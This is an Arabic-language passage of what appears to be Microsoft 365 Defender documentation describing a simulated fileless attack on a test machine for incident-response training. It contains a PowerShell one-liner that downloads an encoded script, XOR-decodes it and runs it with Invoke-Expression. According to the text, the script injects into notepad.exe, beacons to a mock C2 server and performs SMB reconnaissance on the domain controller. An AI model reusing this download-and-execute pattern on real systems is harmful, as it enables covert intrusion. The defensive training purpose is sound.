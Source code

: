 لتشغيل محاكاة سيناريو الهجوم:

1. سجل دخولك إلى جهاز الاختبار باستخدام حساب المستخدم الاختباري.

2. افتح نافذة Windows PowerShell على جهاز الاختبار.

3. انسخ برنامج محاكاة البرنامج النصي التالي:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > إذا فتحت هذا المستند على مستعرض ويب، فقد تواجه مشاكل في نسخ النص الكامل دون فقدان أحرف معينة أو إدخال فواصل حروف إضافية. قم بتنزيل هذا المستند وافتحه على Adobe Reader.

4. عند المطالبة، اللصق وتشغيل البرنامج النصي المنسوخ.

> [!NOTE]
> إذا كنت تقوم بتشغيل PowerShell باستخدام بروتوكول سطح المكتب البعيد (RDP)، فاستخدم الأمر نوع نص الحافظة في عميل RDP لأن **مفتاح CTRL-V** hotkey أو أسلوب النقر بيمين قد لا يعمل. في بعض الأحيان لن تقبل الإصدارات الأخيرة من PowerShell هذا الأسلوب، وقد تحتاج إلى النسخ إلى المفكرة في الذاكرة أولا، ونسخها في الجهاز الظاهري، ثم لصقها في PowerShell.

بعد بضع <i> ثوان،notepad.exe</i> فتحه. سيتم إدخال رمز هجوم محاكاة في notepad.exe. احتفظ بالمثيل الذي المفكرة تلقائيا مفتوحا لتجربة السيناريو الكامل.

سيحاول رمز الهجوم الذي تم محاكاته الاتصال إلى عنوان IP خارجي (محاكاة خادم C2)، ثم محاولة الاستطلاع على وحدة التحكم بالمجال من خلال SMB.

سترى رسالة معروضة على وحدة تحكم PowerShell عند اكتمال هذا البرنامج النصي.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

لرؤية الميزة "حادث والاستجابة التلقائية" في العمل، احتفظ notepad.exe العملية مفتوحة. سترى إيقاف الاستجابة والحادث التلقائي المفكرة العملية.

## <a name="investigate-an-incident"></a>التحقيق في حادث

> [!NOTE]
> قبل أن نستعرض عملية المحاكاة هذه، شاهد الفيديو التالي لمعرفة كيف تساعدك إدارة الحوادث على جمع التنبيهات ذات الصلة معا كجزء من عملية التحقيق، حيث يمكنك العثور عليها في المدخل، وكيف يمكنها مساعدتك في عمليات الأمان:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

بالتبديل إلى طريقة عرض محلل SOC، يمكنك الآن البدء في التحقق من الهجوم في مدخل Microsoft 365 مركز الأمان.
